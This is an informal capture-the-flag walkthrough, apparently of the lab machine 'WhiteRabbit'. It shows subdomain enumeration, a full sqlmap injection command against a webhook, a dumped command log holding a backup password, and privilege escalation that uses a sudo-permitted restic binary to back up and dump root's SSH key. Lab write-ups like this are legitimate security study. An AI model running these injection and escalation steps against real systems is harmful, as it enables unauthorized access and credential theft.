 

we manage to find some subdomains 
	status.whitrabbit.htb then just bruteforcing directories for interesting files 

--> first in http://status.whiterbbit.htb/status/temp/ we trigger to have some new domains

	here are all we found 

		ddb09a8558c9.whiterabbit.htb	

		a668910b5514e.whiterabbit.htb	

		28efa8f7df.whiterabbit.htb


	so the few we got , we take the last one for pentesting it 
			we came onto a todo list website ; 
		
		then trying to see all to do , we see http://a668910b5514e.whiterabbit.htb/en/gophish_webhooks
		we saw this lines 

				Database Interactions

		    User Validation: Checks if the user’s email from the event is present in the database.

		    Phishing Score Update: Depending on the user’s action, their phishing susceptibility score is updated. Actions like clicking a phishing link or submitting data through a phishing form negatively impact their score.

		    Debugging and Error Handling: Notably, there is a debug node labeled "DEBUG: REMOVE SOON" that aids in troubleshooting by providing error messages when things go awry. This node is temporary and will be removed once the workflow is fully operational and stable.

		    Conditional Logic: The workflow includes conditions to handle different scenarios, such as actions taken by the user (e.g., clicking a link or submitting data), and adjusts the phishing score accordingly.

Understand the trully purpose of that , we're figure out that the target should be vulnerable to  sqli 
		So using sqlmap , this is the full command , i ommitted the steps to retrieve database and table we interest on

		# Sqli testing

		sqlmap -u http://28efa8f7df.whiterabbit.htb/webhook/d96af3a4-21bd-4bcb-bd34-37bfc67dfd1d --method POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Linka"}' -p email --proxy http://127.0.0.1:8080/ --batch --dump --level=5 --risk=3 -D temp -T command_log --flush


		# Note  that  it could take a bit longer but hopefully we do it right , alternatively , i redirect the traffic to my burp instance crawler this is why you see --proxy tag 


						+----+---------------------+--------------------------------------------------
				----------------------------+
				| id | date
				| command
				|
				+----+---------------------+--------------------------------------------------
				----------------------------+
				| 1 | 2024-08-30 10:44:01 | uname -a
				|
				| 2 | 2024-08-30 11:58:05 | restic init --repo
				rest:http://75951e6ff.whiterabbit.htb
				|
				| 3 | 2024-08-30 11:58:36 | echo ygcsvCuMdfZ89yaRLlTKhe5jAmth7vxw  >
				.restic_passwd
				|
				| 4 | 2024-08-30 11:59:02 | rm -rf .bash_history
				|
				| 5 | 2024-08-30 11:59:47 | #thatwasclose
				|
				| 6 | 2024-08-30 14:40:42 | cd /home/neo/ && /opt/neo-password-generator/neo-
				password-generator | passwd |
				+----+---------------------+--------------------------------------------------
				----------------------------+


	Ok , let's thinking , that seems to be a restic manager repo , so the user inits a restic on the new subdomain 

	let's try to enum available repos in this . 
			restic --repo rest:http://75951e6ff.whiterabbit.htb snapshots
 					so paste the password once prompted

 	what we do now is to restore the repo in our machine : restic --repo rest:http://75951e6ff.whiterabbit.htb restore [id] --target path_you_wanna_save

 	Once done , you'll find a 7-ZIP archive file in it  that's locked ; crack it and then use the private inside to log as bobn on the system 

 			ssh -i id_rsa bob@whiterabbit.htb -p 2222

 	Logging in as bob 

 			bob@ebdce80611e9:~$ sudo -l
					Matching Defaults entries for bob on ebdce80611e9:
					    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

					User bob may run the following commands on ebdce80611e9:
					    (ALL) NOPASSWD: /usr/bin/restic
# Exploitation TIme 

	init a repo : sudo /usr/bin/restic init -r u //I use u as repo name et also set u as pass , use whatever you want 
	backup the root folder : sudo /usr/bin/restic -r u backup /root/
	list element inside of backup you do : sudo restic -r u ls latest

		repository fe1f08a9 opened (version 2, compression level auto)
		[0:00] 100.00%  1 / 1 index files loaded
		snapshot 0b7e5bf4 of [/root] filtered by [] at 2025-04-11 15:26:59.73174016 +0000 UTC):
		/root
		/root/.bash_history
		/root/.bashrc
		/root/.cache
		/root/.profile
		/root/.ssh
		/root/morpheus
		/root/morpheus.pub
	got interesting things , move on to grab morpheus key :
			sudo restic -r u dump latest /root/morpheus

	Now , copy the ouput and get connected as morpheus on 22 ssh port  and enjoy the user's flag
		 
